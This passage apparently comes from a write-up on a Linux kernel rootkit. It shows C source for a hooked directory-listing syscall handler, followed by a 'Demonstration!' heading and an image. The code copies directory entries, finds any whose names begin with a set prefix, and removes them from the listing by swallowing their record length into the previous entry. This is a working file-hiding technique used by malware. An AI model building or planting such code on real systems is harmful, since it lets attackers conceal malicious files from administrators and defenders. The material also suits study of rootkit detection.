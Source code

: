 ```c
	if ( (retval <= 0) || (new_dirent == NULL) )
        return retval;


    long error;
    error = copy_from_user(new_dirent, user_dirent, retval);
    if(error)
        goto done;


    while (offset < retval)
    {
        current_entry = (void *)new_dirent + offset;
		
		// if file name matches PREFIX , hide it from listing
        if ( memcmp(PREFIX, current_entry->d_name, strlen(PREFIX)) == 0)
        {
            /* Check for the special case when we need to hide the first entry */
            if( current_entry == new_dirent )
            {
                /* Decrement ret and shift all the structs up in memory */
                retval -= current_entry->d_reclen;
                memmove(current_entry, (void *)current_entry + current_entry->d_reclen, retval);
                continue;
            }
            /* Hide the secret entry by incrementing d_reclen of previous_entry by
             * that of the entry we want to hide - effectively "swallowing" it
             */
            previous_entry->d_reclen += current_entry->d_reclen;
        }
        else
        {
            /* Set previous_entry to current_entry before looping where current_entry
             * gets incremented to the next entry
             */
            previous_entry = current_entry;
        }


        offset += current_entry->d_reclen;
    }


    error = copy_to_user(user_dirent, new_dirent, retval);
    if(error)
        goto done;


done:
    kfree(new_dirent);
    return retval;
}
```
## Demonstration!
**![](https://lh7-rt.googleusercontent.com/docsz/AD_4nXdWbdfHWX8OevOpovb4vVr6JaxUygGhxWtJJfudjERUarhYjWl7ykqejGjs9e2DHrHBPP1A3YDzsubBcFSkpv52QeDNEBr03WNdSWkrXoT8HFC7YJg9yesmtW2-wyAFFSo8uMFIB4bYApv261lERRQtJLo?key=8gWUuztVdypWUJCrXgpmWzsr)**

